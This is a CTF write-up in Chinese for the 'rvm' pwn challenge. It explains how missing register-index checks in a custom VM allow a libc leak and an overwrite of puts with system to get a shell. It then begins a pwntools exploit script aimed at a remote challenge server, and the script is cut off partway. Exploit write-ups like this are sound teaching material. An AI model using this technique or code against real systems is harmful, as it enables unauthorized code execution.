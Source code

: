 
# Pwn

## rvm

纯纯逆向题

核心漏洞点在0x01FD0函数，看上去check了很多，实际上没有check目标寄存器下标，导致溢出，可以覆盖虚表中的puts函数低4字节

还有就是add、sub等计算功能，check了目的寄存器下标，但是没有check两个源寄存器下标，导致可以泄露mmap地址的低4字节

mmap地址和libc很近，所以直接利用vm计算偏移即可，puts改system，最后用magic操作（实际上就是修改reg的类型标识符），修改为"$0"即可提权

exp

```Python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# io = process("./pwn")
io = remote(b"124.71.164.28", 10089)
tob = lambda x: str(x).encode()

def op_mov_i(reg, imm):
    return b"\x01" + p8(reg) + p16(imm)

def op_print_i(reg):
    return b"\x02" + p8(reg)

def op_i2s(ra, rb):
    return b"\x03" + p8(ra) + p8(rb)

def op_rand(reg):
    return b"\x04" + p8(reg)

def op_jmp_imm(imm):
    return p8(16) + p16(imm)

def op_jnz_imm(imm):
    return p8(17) + p16(imm)

def op_jz_imm(imm):
    return p8(18) + p16(imm)

def op_and(rs, ra, rb): # s = a & b
    return p8(39) + p8(rs) + p8(ra) + p8(rb)

def op_add(rs, ra, rb): # s = a + b
    return p8(33) + p8(rs) + p8(ra) + p8(rb)

def op_sub(rs, ra, rb): # s = a - b
    return p8(34) + p8(rs) + p8(ra) + p8(rb)

def op_mul(rs, ra, rb): # s = a * b
    return p8(35) + p8(rs) + p8(ra) + p8(rb)

def op_div(rs, ra, rb): # s = a / b
    return p8(36) + p8(rs) + p8(ra) + p8(rb)

def op_xor(rs, ra, rb): # s = a ^ b
    return p8(32) + p8(rs) + p8(ra) + p8(rb)

def op_or(rs, ra, rb): # s = a | b
```